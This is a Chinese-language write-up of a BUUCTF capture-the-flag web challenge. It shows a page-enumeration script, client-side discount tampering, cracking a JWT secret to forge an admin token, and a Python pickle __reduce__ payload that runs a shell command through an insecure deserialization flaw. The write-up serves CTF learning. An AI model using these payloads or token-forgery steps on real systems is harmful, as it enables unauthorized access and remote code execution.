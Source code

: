 ### 伪造 JWT

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67d81a8988c538a9b5bff794.png)

打开网页给出提示

![](https://pic1.imgdb.cn/item/67d81abb88c538a9b5bff798.png)

网页太多了，用脚本去找

```python
import requests

url="http://30b74212-bc6f-465c-8b60-d9aeaa215b75.node4.buuoj.cn:81/shop?page="
 
for i in range(0,2000):
    print(i)
    r=requests.get( url + str(i) )
    if 'lv6.png' in r.text:
        print (i)
        break
```

![](https://pic1.imgdb.cn/item/67d81af488c538a9b5bff79e.png)

找到后购买钱不够，修改前端代码的折扣

![](https://pic1.imgdb.cn/item/67d81b1388c538a9b5bff7a3.png)

购买后显示只能 admin 访问

![](https://pic1.imgdb.cn/item/67d81b2188c538a9b5bff7a5.png)

查看 Cookies 发现有 JWT

![](https://pic1.imgdb.cn/item/67d81b7388c538a9b5bff7ad.png)

使用工具破解密钥

![](https://pic1.imgdb.cn/item/67d81cb888c538a9b5bff7e4.png)

去在线网站生成 admin 的 JWT

![](https://pic1.imgdb.cn/item/67d81d1c88c538a9b5bff7f4.png)

替换掉刷新网页

![](https://pic1.imgdb.cn/item/67d81d0c88c538a9b5bff7f3.png)

点击后没反应，查看源代码有压缩文件

![](https://pic1.imgdb.cn/item/67d81d6788c538a9b5bff824.png)

下载后拿到源码

```python
import tornado.web
from sshop.base import BaseHandler
import pickle
import urllib
 
 
class AdminHandler(BaseHandler):
    @tornado.web.authenticated
    def get(self, *args, **kwargs):
        if self.current_user == "admin":
            return self.render('form.html', res='This is Black Technology!', member=0)
        else:
            return self.render('no_ass.html')
 
    @tornado.web.authenticated
    def post(self, *args, **kwargs):
        try:
            become = self.get_argument('become')
            p = pickle.loads(urllib.unquote(become))
            return self.render('form.html', res=p, member=1)
        except:
            return self.render('form.html', res='This is Black Technology!', member=0)
```

become 参数存在 Pickle 反序列化漏洞

```python
import pickle
import urllib
import commands

# commands.getoutput 是一个函数，用于执行系统命令并返回输出
class Try(object):
    def __reduce__(self):
        return (commands.getoutput, ('cat /flag.txt',))


a = Try()
print(urllib.quote(pickle.dumps(a)))
```

替换为脚本生成的序列化代码拿到 flag

![](https://pic1.imgdb.cn/item/67d8209a88c538a9b5bff911.png)
